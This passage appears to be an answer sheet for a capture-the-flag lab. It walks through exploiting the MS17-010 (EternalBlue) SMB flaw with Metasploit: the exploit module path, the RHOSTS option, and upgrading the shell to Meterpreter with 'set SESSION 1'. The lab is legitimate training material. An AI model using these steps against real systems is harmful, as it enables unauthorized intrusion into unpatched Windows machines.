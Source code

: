 ```
3
```
3. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
```
ms17-010
```

#Task 2 Gain Access
1. Start Metasploit
```
no answer needed
```
2. Find the exploitation code we will run against the machine.  What is the full path of the code? (Ex: exploit/.......)
```
exploit/windows/smb/ms17_010_eternalblue
```
3. Show options and set the one required value.  What is the name of this value? (All caps for submission)
```	
RHOSTS	
```
4. Run the exploit.
```
no answer needed
```
5. Confirm that the exploit has run correctly.  You may have to press enter for the DOS shell to appear. Backgroud this shell (CTRL + Z).  If this failed, you may have to reboot the target VM.  Try running it again before reboot of the target.
```
no answer needed
```

#Task 3 Escalate
1. If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 
```
Name of post module to upgrade from command to meterpreter shell:

post/multi/manage/shell_to_meterpreter
```
2. Select this (use MODULE_PATH). Show options, what option are we required to change? (All caps for answer)
```
SESSION
```
3. Set the required option, you may need to list all of the sessions to fid you target here.
```
no answer needed

set SESSION 1
```
4. Run!  If this doesn't work, try completeing the exploit from the previous task once more.
```
no answer needed
```
5. Once the meterpreter shell conversion completes, select that session for use.
```
no answer needed

msf5 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
```